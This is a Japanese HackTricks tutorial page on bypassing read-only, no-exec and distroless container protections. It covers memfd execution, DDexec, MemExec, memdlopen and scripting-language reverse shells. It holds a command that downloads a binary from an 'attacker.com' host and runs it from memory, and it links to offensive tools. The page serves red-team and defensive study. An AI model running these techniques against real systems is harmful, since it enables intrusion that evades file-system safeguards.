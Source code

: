 # FS保護のバイパス: 読み取り専用 / no-exec / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています!** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより深く説明されています:

* [**DEF CON 31 - Linuxメモリ操作の探求: ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / no-execシナリオ

Linuxマシンが**読み取り専用 (ro) ファイルシステム保護**でマウントされることがますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行することができます:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**no-exec保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムに存在しないバイナリをダウンロードして実行することを複雑にします**（バックドアや`kubectl`のような列挙ツールなど）。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及したことに注意してください。インタープリタがマシン内にある限り、**任意のスクリプトを実行できます**。例えば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

しかし、これはあなたのバイナリバックドアや他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**のような強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**実行するファイルとしてfdを指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**でそれを**デコードおよび解凍する**ための指示を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`にファイルを持つ**通常のfd**を作成しても機能しません。なぜなら、**no-exec保護**が適用されるため、実行することが許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**ことを可能にする技術です。

したがって、プロセスによって実行されているアセンブリコードを**制御することができ**、**シェルコード**を書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから**自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)は、DDexecの自然な次のステップです。これは**DDexecシェルコードのデーモン化**であり、異なるバイナリを**実行したいとき**にDDexecを再起動する必要はなく、DDexec技術を介してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する**ことができます。

**memexecを使用してPHPリバースシェルからバイナリを実行する方法の例**は[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、**メモリにバイナリを読み込む**ための**簡単な方法**を提供します。依存関係を持つバイナリを読み込むことさえ可能です。

## Distroless Bypass

### What is distroless

Distrolessコンテナは、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**（ライブラリやランタイム依存関係など）だけを含み、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外します。

Distrolessコンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### Reverse Shell

Distrolessコンテナでは、**通常のシェルを取得するための`sh`や`bash`**さえ見つからないかもしれません。また、`ls`、`whoami`、`id`などのバイナリも見つかりません... システムで通常実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル**を取得したり、通常のように**システムを列挙**したりすることは**できません**。
{% endhint %}

しかし、もし侵害されたコンテナが例えばflaskウェブを実行している場合、pythonがインストールされているため、**Pythonリバースシェル**を取得できます。nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して**システムを列挙**することができます。
{% endhint %}

もし**`read-only/no-exec`**保護がなければ、リバースシェルを悪用して**ファイルシステムにバイナリを書き込み**、**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらを回避する**ことができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語の**リバースシェル**を取得し、メモリからバイナリを実行する方法の**例**は[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}
